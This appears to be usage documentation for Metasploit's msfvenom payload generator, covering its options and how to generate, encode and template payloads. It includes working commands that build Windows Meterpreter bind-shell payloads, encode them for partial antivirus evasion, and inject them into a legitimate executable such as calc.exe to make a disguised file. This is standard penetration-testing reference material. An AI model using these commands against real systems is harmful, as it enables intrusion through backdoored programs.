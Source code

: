 Msfvenom is the combination of payload generation and encoding. It's a replacement for msfpayload and msfencode. It supports the following options:

```
Options:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type example: payloads, encoders, nops, all
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload
    -f, --format     <format>        Output format (use --help-formats for a list)
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       <architecture>  The architecture to use
        --platform   <platform>      The platform of the payload
    -s, --space      <length>        The maximum size of the resulting payload
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>         The number of times to encode the payload
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include
    -x, --template   <path>          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
        --payload-options            List the payload's standard options
    -o, --out   <path>               Save the payload
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message
        --help-formats               List available formats
```

**How to generate a payload**

To generate a payload, you can use the -p flag. You will also most likely use the -f flag (also known as --format) to specify what the output should be. Format can be two things: either you're generating an executable type format, or you are generating a transform type format. The executable type means when you create the payload, the output is meant to be a file. The transform format means this is code, as in you probably copy and paste this to some exploit code you're working on.

The executable format is pretty straight forward, so it needs no further explanation. But there is another flag that's specifically designed for some transform formats, and that is the -v flag (--var-name). This option allows you have a custom variable name in your output, and currently only the following transform formats support --var-name: bash, c, csharp, java, perl, powershell, py, rb, sh, vbapplication, vbscript.

The following is a basic example of how to generate a file:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

This is an example of setting a custom variable for a Java format output:

```
echo AAAA | ./msfvenom -p - -a x86 --platform windows -v myVar -f java
```

If you'd like to know all the built-in Metasploit payloads available, you can use the -l flag:

```
./msfvenom -l payloads
```



**How to encode a payload**

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus but understand encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

**How to avoid bad characters**

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

**How to supply a custom template**

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.